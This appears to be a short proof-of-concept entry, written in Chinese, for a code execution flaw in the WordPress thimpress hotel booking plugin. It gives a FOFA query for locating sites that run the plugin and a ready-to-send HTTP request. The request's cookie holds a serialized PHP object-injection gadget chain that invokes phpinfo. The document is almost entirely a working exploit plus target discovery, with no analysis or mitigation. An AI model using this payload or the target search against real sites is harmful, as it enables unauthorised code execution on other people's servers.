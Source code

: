 ## WordPress-thimpress_hotel_booking存在代码执行漏洞


## fofa
```
body="wp-content/plugins/wp-hotel-booking"
```


## poc
```
GET / HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Connection: close
Cookie: thimpress_hotel_booking_1=O:11:"WPHB_Logger":1:{s:21:"%00WPHB_Logger%00_handles"%3BC:33:"Requests_Utility_FilteredIterator":67:{x:i:0%3Ba:1:{i:0%3Bs:2:"-1"%3B}%3Bm:a:1:{s:11:"%00*%00callback"%3Bs:7:"phpinfo"%3B}}}
Accept-Encoding: gzip

```
